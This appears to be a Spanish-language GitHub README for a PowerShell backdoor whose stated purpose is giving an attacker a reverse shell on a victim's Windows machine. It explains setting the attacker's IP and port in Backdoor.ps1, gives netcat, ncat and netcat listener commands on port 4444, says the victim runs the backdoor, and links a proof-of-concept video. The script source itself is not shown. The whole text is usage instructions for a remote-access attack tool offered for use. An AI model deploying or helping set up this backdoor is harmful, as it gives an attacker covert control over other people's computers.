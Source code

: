 # powershell-backdoor
Backdoor en Powershell para obtener una reverse shell

# Uso:
Primero que nada antes de ejecutar el backdoor debemos de modificar ciertos parametros en el archivo Backdoor.ps1, las variables $address y $port hay que modificarlas, en $address hay que colocar la IP de la maquina atacante, y en $port hay que colocar el puerto por el cual se hara la conexion, y por el que el atacante estara a la escucha.

$address = 'LA DIRECCION IP DEL ATACANTE'

$port = 'EL PUERTO POR EL QUE SE VA A REALIZAR LA CONEXION'

Luego el atacante va a estar a la escucha de una conexion por medio de netcat

nc -lvp "el puerto que se haya colocado"

# Ejemplo:

nc -lvp 4444

O si no funciona puedes probar alguno de estos dos:

ncat -lvp 4444

netcat -lvp 4444

Y la victima va a ejecutar el backdoor en su maquina windows

# PoC Backdoor Powershell:

https://user-images.githubusercontent.com/64616891/128221817-3fb9306b-8056-4839-b087-a22ff2e1d8e9.mp4
